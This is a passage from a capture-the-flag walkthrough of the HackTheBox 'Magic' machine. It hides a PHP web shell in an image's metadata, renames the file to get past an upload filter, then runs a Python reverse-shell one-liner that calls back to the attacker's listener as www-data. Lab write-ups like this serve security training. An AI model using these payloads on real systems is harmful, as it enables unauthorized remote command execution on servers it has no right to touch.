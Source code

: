 ![image5](https://github.com/electronicbots/HackTheBox/blob/master/Machines/Magic/images/5.png)

So we can now upload a Web Shell from it. First I downloaded an image from the Web site and used ExifTool to put in it a Web shell.
```
┌──(kali㉿kali)-[~/Desktop/HTB/Magic]
└─$ exiftool -Comment='<?php echo "<pre>"; system($_GET['cmd']); ?>' shell.jpg 
    1 image files updated
```

and now we need to change from shell.jpg to shell.php.jpg so we can run our web shell :)
```
┌──(kali㉿kali)-[~/Desktop/HTB/Magic]
└─$ mv shell.jpg shell.php.jpg
```

Now upload it and you should get your Web Shell. All the images are stored here: http://10.10.10.185/images/uploads/

And we have our web shell:

![image6](https://github.com/electronicbots/HackTheBox/blob/master/Machines/Magic/images/6.png)

Now run this to get a reverse shell:

```python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<YOUR IP>",<PORT #>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' ```

You should get a reverse shell now:
```
┌──(kali㉿kali)-[~]
└─$ nc -nlvp 4444            
listening on [any] 4444 ...
connect to [10.10.14.28] from (UNKNOWN) [10.10.10.185] 44704
/bin/sh: 0: can't access tty; job control turned off
$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
$ 
```

Let's upgrade our shell by using python:
```
$ python3 -c "import pty;pty.spawn('/bin/bash')"